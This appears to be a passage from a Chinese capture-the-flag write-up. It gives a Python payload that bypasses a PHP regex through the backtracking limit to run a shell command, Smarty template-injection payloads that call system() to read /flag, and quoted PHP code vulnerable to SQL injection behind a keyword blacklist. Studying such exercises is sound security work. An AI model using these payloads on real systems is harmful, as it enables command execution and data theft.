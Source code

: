 ```php
?>
```

绕过三种方式：%0a(正则有个m不能用了)，还可以用数组绕过，最大正则回溯

这儿利用最大回溯来绕过

然后再处理`json_decode`时，需要使用键值对

同时利用写入本地文件拿flag

给出payload

```
import requests
payload = '{"cmd":"`nl /f*>1`;","test":"' + "@"*(1000000) + '"}'
res = requests.post("http://1.14.71.254:28769/", data={"letter":payload})
r=requests.get("http://1.14.71.254:28769/1")
print(r.text)
```

## midlevel

考点：smarty模板注入

payload：

```
{if system("ls  /")}{/if}  
{if system("cat /flag")}{/if}
```

##  join us

```php
<?php
error_reporting(0);
session_start();
include_once "config.php";
global $MysqlLink;
$MysqlLink = mysqli_connect("127.0.0.1",$datauser,$datapass);
if(!$MysqlLink) {
    die("Mysql Connect Error!");
}
$selectDB = mysqli_select_db($MysqlLink,$dataName);
if(!$selectDB) {
    die("Choose Database Error!");
}
if(isset($_POST['tt'])) {
    $txw4ever = $_POST['tt'];
    $blacklist = "union|left|right|and|or|by|if|\&|sleep|floor|substr|ascii|=|\"|benchmark|as|column|insert|update";
    if(preg_match("/{$blacklist}/is",$txw4ever)) {
        die("不要耍小心思喔~");
    }
    $sql = "select*from Fal_flag where id = '$txw4ever';";
    $result = mysqli_query($MysqlLink,$sql);
    if($result) {
        $row = mysqli_fetch_array($result);
        echo "message: ";
        print_r($row['data']);
    } else {
        echo mysqli_error($MysqlLink);
    }
} else {
    die("?");
}
```